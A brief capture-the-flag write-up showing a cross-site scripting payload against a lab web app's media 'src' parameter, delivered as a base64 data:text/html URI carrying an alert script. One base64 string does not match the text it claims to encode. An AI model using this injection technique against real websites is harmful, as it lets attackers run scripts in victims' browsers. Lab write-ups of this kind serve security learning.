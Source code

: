 # flag 9 | xss in pictures

For this flag, we will use [this page](http://192.168.56.104/index.php?page=media&src=nsa)

We can see that the url is precising the src of the media, so we can try to create an xss injection in the url while setting it to base64.

We will transform this
```html
<script>alert("donne flag stp")</script>
```
To this
```html
PHNjcmlwdD5hbGVydCgiZmxhZyIpPC9zY3JpcHQ+Cg==
```

And we will set the url to
```html
http://192.168.56.104/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiZG9ubmUgZmxhZyBzdHAiKTwvc2NyaXB0Pgo=
```